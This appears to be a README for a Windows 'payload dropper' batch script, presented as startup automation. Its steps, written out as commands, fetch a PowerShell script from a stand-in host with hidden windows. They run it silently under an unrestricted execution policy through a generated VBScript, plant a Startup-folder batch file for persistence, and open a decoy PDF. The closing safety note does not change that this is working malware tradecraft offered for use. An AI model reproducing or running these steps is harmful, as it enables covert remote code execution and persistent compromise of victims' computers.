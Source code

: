 # batch_payload_dropper

This batch script, is designed to automate certain tasks during system startup by utilizing the Windows Startup mechanism. It involves downloading a PowerShell script and a PDF document from specified URLs and silently executing the PowerShell script upon system startup.

## Usage

1. **Downloading and Execution Steps:**
   - Change directory to the user's temporary folder:
     ```batch
     cd "%USERPROFILE%\AppData\Local\Temp\"
     ```

   - Create a VBScript file (`run.vbs`) to run the PowerShell script (`script.ps1`) silently:
     ```batch
     echo command = "powershell.exe -nologo -ExecutionPolicy Unrestricted -File %temp%\script.ps1" >run.vbs
     echo set shell = CreateObject("WScript.Shell") >>run.vbs
     echo shell.Run command,0 >>run.vbs
     ```

   - Download the PowerShell script (`script.ps1`) and the PDF file (`document.pdf`) from specified URLs using PowerShell:
     ```batch
     powershell.exe -WindowStyle hidden wget https://site.com/script.ps1 -OutFile %TEMP%\script.ps1
     powershell.exe -WindowStyle hidden wget https://site.com/document.pdf -OutFile %TEMP%\document.pdf
     ```

2. **Setting up Autorun:**
   - Change directory to the user's Startup folder:
     ```batch
     cd "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
     ```

   - Create a batch file (`autorun.bat`) to run the VBScript (`run.vbs`) on startup:
     ```batch
     echo wscript %USERPROFILE%\AppData\Local\Temp\run.vbs > autorun.bat
     ```

   - Start the `autorun.bat` script in the background using `start` command:
     ```batch
     start /B autorun.bat
     ```

3. **Open the PDF Document:**
   - Change directory back to the user's temporary folder:
     ```batch
     cd "%USERPROFILE%\AppData\Local\Temp\"
     ```

   - Open the PDF document (`Readme.pdf`) in the default PDF reader:
     ```batch
     start /max Readme.pdf
     ```

## Note

Please exercise caution when using scripts downloaded from the internet. Ensure that the source is trustworthy and the scripts are safe and intended for your use. Always prioritize security and best practices while automating tasks.
